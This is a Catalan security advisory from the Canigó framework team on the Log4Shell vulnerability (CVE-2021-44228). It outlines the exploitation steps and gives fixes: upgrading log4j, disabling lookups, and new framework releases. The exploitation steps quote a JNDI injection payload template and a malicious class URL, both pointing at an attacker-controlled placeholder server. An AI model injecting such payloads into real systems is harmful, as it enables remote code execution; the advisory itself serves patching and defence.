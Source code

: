 +++
date        = "2021-12-13"
title       = "Canigó. Vulnerabilitat CVE-2021-44228 (Log4Shell)"
description = "Com resoldre la vulnerabilitat detectada CVE-2021-44228 (Log4Shell)"
#section     = "howtos"
#categories  = ["canigo"]
#key         = "GENER2022"
+++

La vulnerabilitat [CVE-2021-44228](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44228) permet executar codi en un
servidor remot, injectant una petició JNDI `${jndi:(ldap|rmi|etc)}` dins de qualsevol variable que es registri al log del servidor.

Per a explotar la vulnerabilitat, es poden seguir els següents passos:

1. En el servidor que allotja l'aplicació vulnerable, es registra la informació que conté la càrrega útil maliciosa.
Per exemple: `${jndi:ldap://[servidor]/[càrrega útil]}`, on el servidor està controlat per l'atacant i la càrrega útil conté les comandes a executar.

2. La vulnerabilitat s'activa i el servidor vulnerable sol·licita al servidor de l'atacant a través de JNDI el codi maliciós.

3. La resposta del servidor de l'atacant conté la ruta a una classe Java maliciosa. Per exemple: `http://[servidor]/exploit.class`,
que s'injecta en el context de l'aplicació vulnerable.

4. La càrrega útil injectada permet a l'atacant executar codi arbitrari.

<br/>
Informació de referència:

* <https://github.com/YfryTchsGD/Log4jAttackSurface> \
* <https://github.com/christophetd/log4shell-vulnerable-app> \
* <https://www.tarlogic.com/blog/log4shell-vulnerability-cve-2021-44228/> \
* <https://securelist.com/cve-2021-44228-vulnerability-in-apache-log4j-library/105210/> \
* <https://www.randori.com/blog/cve-2021-44228/>

## Com solucionar la vulnerabilitat a les aplicacions

* **Opció 1**) Substituir la versió de la dependència de la libreria `log4j` en temps de compilació.

    - 1.1) Modificar el fitxer `pom.xml` - **opció recomanada** -, compilar i desplegar l'aplicació:
```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

    - 1.2) Injectar la variable durant la construcció de l'aplicació, compilar i desplegar l'aplicació:
```sh
mvn -Dlog4j2.version=2.15.0 clean package && java -jar ./target/CanigoLog4jShellTest.war
```

* **Opció 2**) Configurar la variable `log4j2.formatMsgNoLookups` en temps d'execució.

    - 2.1) Injectar la variable (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació:
```sh
mvn clean package && java -Dlog4j2.formatMsgNoLookups=true -jar ./target/CanigoLog4jShellTest.war
```

    - 2.2) Afegir una variable d'entorn (vàlid per a: 2.10 >= log4j <= 2.14.1) i desplegar l'aplicació. Veure: https://msrc-blog.microsoft.com/2021/12/11/microsofts-response-to-cve-2021-44228-apache-log4j2/.
```sh
mvn clean package docker:build \
&& docker run -it --rm \
--net=host \
--name="log4jshell-local" \
--memory="1024m" --memory-reservation="1024m" --memory-swap="1024m" --cpu-shares=2000 \
--env LOG4J_FORMAT_MSG_NO_LOOKUPS=true \
canigo/app
```

* **Opció 3**) Modificar el patró de traces configurades al fitxer `log4j.xml` (vàlid per a: 2.7 >= log4j <= 2.14.1), compilar i desplegar l'aplicació. Veure: https://kb.vmware.com/s/article/87093.
```sh
## canviar:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m%n" />
## per:
<PatternLayout pattern="canigo Message: %d{dd MM yyyy HH:mm:ss,SSS} %-5p [%t] %-5p [%t] %c - %m{nolookups}%n" />
```

## Noves versions de Canigó 3.4 i 3.6

S'han alliberat noves versions del Framework Canigó:

* Versions de Canigó 3.4.7 i 3.6.1 per a resoldre aquesta vulnerabilitat als mòduls de Canigó.
Podeu consultar: [Publicació nova versió 3.4.7 i 3.6.1](/noticies/2021-12-13-CAN-actualitzacio-canigo-3_4_7_3_6_1).

* Versió 1.6.8 de l'archetype de Canigó per a generar projectes amb Canigó 3.4.7.
Podeu consultar: [Actualització archetype 1.6.8](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_6_8/).

* Versió 1.7.1 de l'archetype de Canigó i la versió 1.8.1 del plugin del eclipse per a generar projectes amb Canigó 3.6.1.
Podeu consultar: [Actualització archetype 1.7.1 i plugin Eclipse 1.8.1](/noticies/2021-12-13-CAN-Actualitzacio_archetype_1_7_1_plugin_eclipse_1_8_1/).

Des de CS Canigó es recomana actualitzar a aquestes noves versions. Per a fer-ho, serà necessari revisar les dependències de l'aplicació
per a utilitzar els mòduls de les versions 3.4.7 i 3.6.1. Podeu consultar les matrius de compatibilitat de les versions:

- [Matrius de Compatibilitats 3.4](/canigo-download-related/matrius-compatibilitats/canigo-34/)

- [Matrius de Compatibilitats 3.6](/canigo-download-related/matrius-compatibilitats/canigo-36/)

Un cop es comprovi que s'utilitzen les últimes versions dels mòduls, caldrà modificar el fitxer `pom.xml` per a assegurar l'ús
de la versió 2.15.0 de log4j:

```xml
<properties>
<log4j2.version>2.15.0</log4j2.version>
</properties>
```

Un cop realitzades les adaptacions descrites, comprovar que només s'utilitza la versió 2.15.0 del log4j a l'aplicació mitjançant:

```
mvn dependency:tree
```

<br/><br/>
Per qualsevol dubte relatiu a aquesta nova versió del Framework Canigó us podeu posar en contacte amb el CS Canigó al servei CAN del JIRA CSTD o enviant-nos un correu electrònic a la bústia del CS Canigó.